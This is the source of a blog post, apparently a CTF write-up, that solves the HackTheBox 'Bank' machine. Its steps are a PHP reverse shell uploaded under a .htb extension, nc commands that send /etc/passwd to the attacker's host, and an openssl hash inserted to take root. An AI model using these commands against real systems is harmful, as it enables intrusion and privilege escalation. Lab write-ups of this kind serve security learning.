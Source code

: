 ```yaml
---
layout: post
title:	"Bank Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Bank Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, we navigate to the host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/apache.png)

We see the default apache page. 

The reason we see the default apache page is because Apache is using Virtual Hosting.

~~~
https://httpd.apache.org/docs/trunk/vhosts/examples.html
~~~

If we edit our hosts file (`/etc/hosts`), this is the local DNS in Linux.

We add bank.htb along with the IP:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/hosts.png)

~~~
Knowing to edit the hosts file is a little trivial. I guess DNS being open was some sort of a hint?
~~~

Now navigating to bank.htb:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/bank.png)

Time to run a gobuster, and see if there are any other directories / PHP files:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/gobuster.png)

Navigating to any of these pages redirects us back to /login.php

Let's try grabbing the source of support.php with curl:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/source.png)

Looks like the page has content, but we're being redirected.

The way we can see what's on the page is by using a web proxy.

For some reason Burp was not returning the response code and was automatically sending a GET request to login.php, so I used `zap`.

Navigate to support.php:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/302.png)

Change the 302 to 200, and the page should load without redirecting:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/200.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/fileupload.png)

Looks like we have a place where we can upload files. If we noticed from the source earlier, there's a message:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/htb.png)

So the extension .htb, gets treated as .php. 

I'm going to use a php reverse shell, rename it to shell.htb, and upload the shell.

~~~
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
~~~

After uploading the shell, you will be redirected back to login.php

Now you can access your uploaded shell on `http://bank.htb/uploads/shell.htb` and the listener should catch it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/shell.png)

## iii. Privilege Escalation

There are two ways to escalate privileges.

### a. Priv Esc #1

While enumerating the system, I noticed that the `/etc/passwd` file had write permissions for our user.

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/perms.png)

I then used nc to transfer the `passwd` file to my system so I can edit it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/passwd.png)

~~~ 
ON OTHER HOST:

$ nc -w 3 YOUR-IP PORT < file

ON YOUR HOST:

$ nc -l -p PORT > file
~~~

Now we can use `openssl` to generate a password and insert it into `/etc/passwd`

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/toor.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/passwd2.png)

~~~
$ openssl passwd -1 -salt [username] [password]

The original format of root entry:

root:x:0:0:root:/root:/bin/bash

the x is a placeholder for the password, which the system retrieves the hash from /etc/shadow

if we replace x with a hash generated by openssl, we can login
	- you can also make a new account and set the UID to 0, and it'll be treated as root as well

https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/
~~~

Then use wget to download the new passwd file and use the `-O` switch to output the file as `/etc/passwd`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/wget.png)

Now we can `su` to root with the password we generated.

* A TTY shell must be spawned before using su `python -c 'import pty;pty.spawn("/bin/bash")'`

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/root1.png)

### b. Priv Esc #2

If we look at all the files that contain SUID bits with root permissions:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/suid.png)

`/var/htb/emergency` seems to be a little sketchy.

Running emergency...

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/emergency.png)

We are root!

## iv. Conclusion

I had trouble in the beginning of the box because of the Virtual Hosting. Apart from that this box is great practice to make sure you keep your eyes out and not miss little details.







~~~
Sources / Links:
[0]: https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
[1]: https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://netsec.ws/?p=337
~~~



